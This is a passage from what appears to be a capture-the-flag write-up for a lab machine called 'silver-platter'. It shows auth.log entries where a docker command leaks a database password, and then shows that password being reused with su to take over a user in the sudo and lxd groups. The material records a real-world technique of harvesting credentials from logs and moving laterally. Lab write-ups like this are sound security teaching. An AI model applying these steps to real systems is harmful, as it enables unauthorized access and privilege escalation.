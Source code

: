 ```
auth.log.2:Dec 13 15:45:21 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:silverpeas-6.3.1
auth.log.2:Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1
auth.log.2:Dec 13 16:17:31 silver-platter passwd[6811]: pam_unix(passwd:chauthtok): password changed for tim
auth.log.2:Dec 13 16:18:57 silver-platter sshd[6879]: Accepted password for tyler from 192.168.1.20 port 47772 ssh2
auth.log.2:Dec 13 16:32:54 silver-platter passwd[7174]: pam_unix(passwd:chauthtok): password changed for tim
auth.log.2:Dec 13 16:33:12 silver-platter sshd[7181]: Accepted password for tim from 192.168.1.20 port 50970 ssh2
auth.log.2:Dec 13 16:35:45 silver-platter sshd[7297]: Accepted password for tyler from 192.168.1.20 port 58172 ssh2
auth.log.2:Dec 13 16:45:33 silver-platter sshd[7622]: Accepted password for tyler from 192.168.1.20 port 33484 ssh2
auth.log.2:Dec 13 17:43:09 silver-platter sshd[7750]: Accepted password for tyler from 192.168.1.20 port 45796 ssh2
auth.log.2:Dec 13 17:51:30 silver-platter sshd[1370]: Accepted password for tyler from 192.168.1.20 port 60860 ssh2
auth.log.2:Dec 13 17:51:41 silver-platter sshd[1681]: Accepted password for tyler from 192.168.1.20 port 55392 ssh2

```

Searching through wee can see something interesting,

`USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3`

This means the root user passed the password on the command line for postgrepsql database for silverpeas : **\_Zd_zx7N823/**

If we cd to home we see another name : tyler

If we switch to root we can't use this password so we try for tyler :

```
tim@silver-platter:/var/log$ su tyler
Password: _Zd_zx7N823/
tyler@silver-platter:/var/log$ 

```

And we have it, now we run id :

```
tyler@silver-platter:/$ id

   uid=1000(tyler) gid=1000(tyler) 
   groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```
